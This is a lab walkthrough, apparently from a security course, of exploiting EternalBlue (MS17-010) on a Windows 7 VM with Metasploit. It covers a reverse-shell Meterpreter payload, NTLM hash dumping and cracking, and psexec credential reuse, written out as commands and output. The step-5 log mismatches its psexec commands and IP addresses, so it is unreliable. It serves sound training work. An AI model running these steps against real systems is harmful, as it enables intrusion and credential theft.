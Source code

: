 # 🔥 EternalBlue Exploit Walkthrough - Windows 7 Lab

# link: https://academy.tcm-sec.com/courses/1152300/lectures/34117487
## 📌 Objective

Exploit a vulnerable Windows 7 machine using MS17-010 (EternalBlue), gain Meterpreter access, dump NTLM password hashes, and crack them.

---

## 🧱 Lab Setup

| System       | IP Address   | Role                  |
| ------------ | ------------ | --------------------- |
| Kali Linux   | 192.168.178.37 | Attacker (Metasploit) |
| Windows 7 VM | 192.168.178.38 | Target (SMB enabled)  |

**Network Mode**: Both VMs set to **Bridged Adapter** mode (in VMware)

### 🔎 Finding the VM on the network

* Both Kali and Windows 7 are in bridged mode to appear on the same LAN subnet.
* On Kali, used the following to discover live hosts:

```bash
nmap -sn 192.168.178.0/24
```

Identified the Windows 7 VM at `192.168.178.38`.

---

## 🔍 1. Check for MS17-010 Vulnerability

```bash
nmap -p 445 --script smb-vuln-ms17-010 192.168.178.38
```

📉 Output:

```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

---

## 💣 2. Exploit with Metasploit

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.178.38
set LHOST 192.168.178.37
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set EXITFUNC thread
exploit
```

📉 Result:

```bash
[*] Sending stage ...
[*] Meterpreter session 1 opened
```

---

## 🛠️ 3. Post-Exploitation (Hash Dump)

### View sessions:

```bash
sessions
sessions -i 1
```

### Dump password hashes:

```bash
hashdump
```

🖜 Extracted NTLM hashes:

```
user:1000:...:2b576acbe6bcfda7294d6bd18041b8fe:::
```

---

## 🔐 4. Crack NTLM Hash

### Attempt with hashcat + rockyou:

```bash
echo "2b576acbe6bcfda7294d6bd18041b8fe" > hash.txt
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

🔴 Status: **Exhausted (not found)**

### Cracked online via CrackStation.net:

```
Password123!
```

---

## 🛋️ 5. Reuse via Psexec with Plaintext Password

```bash
use exploit/windows/smb/psexec
set RHOST 192.168.178.38
set SMBUser user
set SMBPass Password123!
set LHOST 192.168.178.37
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

📉 Result:

```
[*] Started reverse TCP handler on 192.168.2.37:4444 
[*] 192.168.2.38:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.2.38:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 192.168.2.38:445      - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.2.38:445 - The target is vulnerable.
[*] 192.168.2.38:445 - Connecting to target for exploitation.
[+] 192.168.2.38:445 - Connection established for exploitation.
[+] 192.168.2.38:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.2.38:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.2.38:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.2.38:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.2.38:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.2.38:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.2.38:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.2.38:445 - Sending all but last fragment of exploit packet
[*] 192.168.2.38:445 - Starting non-paged pool grooming
[+] 192.168.2.38:445 - Sending SMBv2 buffers
[+] 192.168.2.38:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.2.38:445 - Sending final SMBv2 buffers.
[*] 192.168.2.38:445 - Sending last fragment of exploit packet!
[*] 192.168.2.38:445 - Receiving response from exploit packet
[+] 192.168.2.38:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.2.38:445 - Sending egg to corrupted connection.
[*] 192.168.2.38:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 192.168.178.38
[*] Meterpreter session 1 opened (192.168.178.37:4444 -> 192.168.178.38:49158) at 2025-06-23 23:37:30 +0200
[+] 192.168.2.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.2.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.2.38:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

---

## 🔒 Takeaways

* EternalBlue is still exploitable in unpatched environments
* Hashdump + NTLM cracking is a fast route to further access
* Even simple passwords like `Password123!` are still common
* Pass-the-Hash and plaintext reuse are both viable
* hashdump is not a windows commadn but a a Meterpreter command
---

✅ End of walkthrough — consider chaining to privilege escalation or lateral movement next.